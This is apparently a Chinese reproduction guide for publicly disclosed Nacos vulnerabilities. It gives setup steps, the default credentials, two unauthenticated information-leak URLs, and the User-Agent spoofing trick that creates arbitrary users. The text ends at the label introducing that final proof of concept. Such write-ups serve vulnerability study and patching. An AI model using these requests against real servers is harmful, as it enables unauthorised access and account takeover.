 [TOC]

# 概述

[Nacos](https://nacos.io/zh-cn/docs/what-is-nacos.html)作为一个开源的工具，是阿里开源的 SpringCloud Alibaba 项目下的一项技术，是服务注册中心、分布式配置中心，主要功能有：

1. 服务发现，即服务注册中心，当每个服务实例启动之后，都主动向注册中心登记自己的地址信息，这样注册中心便拥有了所有服务实例的记录*；*
2. 配置管理，系统中所有配置的编辑、存储、分发、变更管理、历史版本管理、变更审计等所有与配置相关的活动。

# 环境搭建

Nacos作为一项开源的项目，直接在GitHub或者官网便可下载。[漏洞影响版本](https://github.com/alibaba/nacos/releases/tag/2.0.0-ALPHA.1)：Nacos <= 2.0.0-ALPHA.1

## Linux

```bash
tar -zxvf nacos-server-2.0.0-ALPHA.1.tar.gz
./startup.sh -m standalone
```

## windows

```cmd
E:\nacos\bin>startup.cmd -m standalone
```

浏览器访问http://your-ip:8848/nacos，默认账号密码nacos/nacos

# 漏洞复现

## 信息泄露

在未登录的情况下访问url，查看nacos默认安装后泄露的内网ip地址，poc：

```
http://ip:8848/nacos/v1/core/cluster/nodes?withInstances=false&pageNo=1&pageS%20ize=10&keyword
```

在未登录的情况下访问url，查看nacos默认安装后泄露的用户列表，poc：

```
http://ip:8848/nacos/v1/auth/users/?pageNo=1&pageSize=9
```

## 任意用户创建

根据Nacos官方在github发布的issue所披露的，漏洞主要由于不当处理User-Agent导致的未授权访问漏洞 。通过该漏洞，攻击者可以进行任意操作，包括创建新用户并进行登录后操作。

访问http://your-ip:8848/nacos/v1/auth/users。利用POST传参，此处的参数为username=test&password=test，修改User-Agent头为Nacos-Server。发送POST请求，返回码200，成功创建test用户，poc：
